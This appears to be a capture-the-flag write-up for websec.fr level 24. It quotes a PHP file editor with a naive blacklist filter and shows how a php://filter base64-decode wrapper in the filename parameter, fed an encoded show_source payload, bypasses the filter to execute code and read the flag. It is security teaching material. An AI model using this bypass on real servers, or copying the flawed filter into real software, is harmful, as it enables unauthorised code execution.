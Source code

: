 +SOurce
```
if (isset($_GET['p']) && isset($_GET['filename']) ) {
    $filename = $_GET['filename'];
    if ($_GET['p'] === "edit") {
        $p = "edit";
        if (isset($_POST['data'])) {
            $data = $_POST['data'];
            if (strpos($data, '<?')  === false && stripos($data, 'script')  === false) {  # no interpretable code please.
                file_put_contents($_GET['filename'], $data);
                die ('<meta http-equiv="refresh" content="0; url=.">');
            }
        } elseif (file_exists($_GET['filename'])){
            $data = file_get_contents($_GET['filename']);
        }
    }
}
```
+ If the user has submitted new data for the file via a POST request, the script checks if the data contains interpretable code using strpos() and stripos(). If the data does not contain interpretable code, the script uses file_put_contents() to write the new data to the file specified in the filename parameter. The script then sends a meta refresh header to reload the page using <meta http-equiv="refresh" content="0; url=."> and terminates execution using die()
+ strpos():  finds the position of the first occurrence of a string inside another string.
+ stripos(): stripos() function is case-insensitive
+ Payload: asdf.php
After that we can insert content and save changes. We can access the file by clicking on the link and can make changes again if needed
+ We can try reading arbitrary files using php filters.
+ When we create a file the url will be like:
`https://websec.fr/level24/index.php?p=edit&filename=asdf.php`
+ Changing filename= php://filter/convert.base64-encode/resource=flag.php will create a new file named flag.php. Now we need to add contents to the file
+ We can add a php code to show the contents of the flag file inorder to get the flag.
```
<?php show_source('/flag.php');?>
```
+ Base64 encode the above code and give it as the content of flag.php
PD9waHAgc2hvd19zb3VyY2UoJy9mbGFnLnBocCcpOz8+
+ After successfully uploading, go to https://websec.fr/level24//uploads/un665jkbk3nvuen52qiru8gujvesham8/flag.php we will get the flag
Flag: WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}

